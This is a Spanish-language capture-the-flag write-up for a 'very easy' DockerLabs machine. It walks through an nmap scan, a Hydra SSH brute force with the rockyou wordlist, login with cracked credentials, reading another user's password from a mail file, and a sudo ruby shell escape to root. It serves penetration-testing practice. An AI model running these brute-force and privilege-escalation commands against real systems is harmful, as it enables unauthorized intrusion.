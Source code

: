 layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux realizando intrusion por ataque de fuerza bruta al protocolo SSH"
date: 2024-05-17
classes: wide
header:
teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
teaser_home_page: true
categories:

- DockerLabs
  tags:
- linux
- Muy facil
- Fuerza Buta
- Sudo

---

<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta y una escalada de privilegios sencilla

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

```css
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
_http-title: Site doesn't have a title (text/html).
_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solamente estan abiertos 2 puertos el 22 donde corre el servicio `SSH` y el 80 donde corre el servicio `http` con Apache, voy a ver que en el servidor web coloco la url `http://172.17.0.2`

![000Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/000Vacaciones.png)

carga un página en blanco, voy a revisar el código fuente presioando las teclas `ctrl + u`

![0001Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/001Vacaciones.png)

veo un mensaje, el cual me sirve para enumerar 2 posibles usuario Juan y Camilo, por lo tanto voy a realizar un ataque de fuerza bruta con estos usuario al servicio `SSH`.

Primero voy a crear un listado de usuarios con el editor de texto `nano` al que voy a llamar `usuarios.txt` y le voy agregar los posibles usuario que encontré anteriormente ahora si voy a realizar el ataque de fuerza bruta con `Hydra`

![002Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/002Vacaciones.png)

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -L        | ruta de lista de usuarios          |
| -P        | ruta del diccionario de contraseña |
| -t        | cantidad de hilos                  |
| ssh       | protocolo a realizar fuerza bruta  |

Consigo la contraseña del usuario camilo.

```css
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

# 2- Intrusion

Momento de realizar la conexión por SSH con las credenciales recién adquiridas

```bash
ssh camilo@172.17.0.2
```

procedo a buscar el correo que Juan le había dejado a Camilo usando la herramienta find

```bash
find / -iname *correo* 2>/dev/null
```

| parametro   | descripcion                                      |
| ----------- | ------------------------------------------------ |
| -iname      | para no distinguir entre mayúsculas y minúsculas |
| \*          | caracter comodin                                 |
| 2>/dev/null | para no mostrar los errores en pantalla          |

me arroja como resultado la siguiente ruta `/var/mail/correo.txt`

![004Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/004Vacaciones.png)

ejecuto `su juan` para cambiar al usuario juan e ingreso la contraseña que me indicó en el correo `2k84dicb`

# 3- Escalada de Privilegios

Ahora como Juan busco como escalar privilegios con `sudo -l` como resultado veo que tengo permisos para ejecutar el binario `ruby`

![005Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/005Vacaciones.png)

Me apoyo de la pagina [GTFObins](https://gtfobins.github.io/) para ver como escalar privilegios

ejecutando el siguiente comando

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Listo conseguí escalar privilegios, ahora soy el usuario root

![006Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/006Vacaciones.png)
